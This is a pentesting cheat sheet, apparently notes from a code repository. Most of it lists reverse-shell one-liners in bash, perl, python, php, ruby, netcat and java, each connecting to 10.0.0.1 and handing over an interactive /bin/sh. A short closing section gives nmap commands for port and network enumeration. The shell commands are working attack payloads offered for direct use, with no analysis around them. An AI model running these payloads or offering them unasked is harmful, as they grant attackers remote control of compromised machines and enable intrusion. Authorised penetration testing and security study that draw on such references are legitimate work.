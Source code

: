 # Notes Cheat sheet

## Reverse Shells

---
> bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

> perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
> python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
> php
```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
> ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
> netcat
```
nc -e /bin/sh 10.0.0.1 1234
```
> java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
---
*Shells Info for Pentest Monkey*
[Pentest Monkey](http://pentestmonkey.net "Web Pentest-Monkey")

## Ports Enumeration And Network Enumeration 
---
> Nmap Scanning Ports - Port versions and scripts
```
nmap -p- --open -T5 -v -n -oG AllPorts IP

nmap -sC -sV -pPORTS -oN NmapScan IP
```
> Nmap Network Enumeration
```
nmap -sn -n YOURIP/24 -oN NetworkScan
```
---

